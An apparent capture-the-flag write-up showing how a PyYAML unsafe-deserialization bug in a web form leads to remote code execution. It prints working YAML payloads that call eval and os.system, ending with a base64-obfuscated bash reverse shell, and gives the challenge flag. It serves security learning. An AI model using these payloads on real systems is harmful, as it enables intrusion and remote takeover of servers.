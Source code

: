 # Loader challenge Writeup : 

- Challenge Name : Loader

- Weight : 400 pts



TL;DR : Exploiting a Python De-Serialization leading to an RCE thanks To yaml/PyYaml.



This is the main challenge page "adminer loader" with a data submission form.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/loadder_x.gif?token=GHSAT0AAAAAABTT5PBKXFRB2D3HCN5AH6JMYS6DYIA)




as you can see! you simply submit an input text and it get reflected/alerted.



looking under the hood we have this interesting js script that actually posts data on `api/load`, and after posting it! it gets alerted.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/magic_behind.PNG?token=GHSAT0AAAAAABTT5PBLQKOWFT3YEZU5CLYGYS6DZBQ)

one more interesting thing is the `btoa()` js function that converts the input string to an base64. confirmed by intercepting the request on burp as shown.
the response also show an interesting server header indicating that this runs on py.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/burp_2.PNG?token=GHSAT0AAAAAABTT5PBKYKRVP6QCZJV6PTIIYS6D2OQ)

Challenge hint mentioned a data format used by SOC Team leads and Threat hunters, after some time it was obviously yaml.


> .... (and) YAML is a human-readable data-serialization language. It is commonly used for configuration files and in applications where data is being stored...

spent sometime reading papers and references along with g0rchy ended up with constructing a "checkup payload" to check if we really about to solve this challenge. 



checkup payload looked like this : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '1+1' ]]]`

simple `!!python/object/new:tuple` to initiate a tuple since were running on YAML...,  `map()` to serve both the function and the iterable that will be "mapped" and `eval()` to check the legality of the python statement... and you know 1+1 :) .

![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/2pic.PNG?token=GHSAT0AAAAAABTT5PBLCZN7BLXBWBDRYV2WYS6D3WQ)

seems like we are in the correct direction!


The second payload we did call python and tried to get at least the built-in python-id trace : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('id')" ]]]`

Returned with the `os.system()` encoded exit value 0 that means success! well, that's great.

![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/0.PNG?token=GHSAT0AAAAAABTT5PBKC4EECREKBIC4SE56YS6D44Q)

The last constructed payload is to get a bash rev shell

according to my teammate g0rchy in APTx1337 who likes keeping the team's work as based as possible we used base64 encoded bash reverse shell, and for the guys who can't handle based-ness you can use escaped quotes bash payloads!

the final payload looks like this : 


> ` !!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('echo c2ggLWkgPiYgL2Rldi90Y3AvJExIT1NULyRMUE9SVCAwPiYx|base64 -d|bash')" ]]]`

and...


![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/sweet.PNG?token=GHSAT0AAAAAABTT5PBLFAR3AI75T44PH4CSYS6D5XQ)












it works! 

> `thnb{py7H0N_P4Ck4935_c4N_83_4_d4n93R}`

More about this check the references.txt. GG!
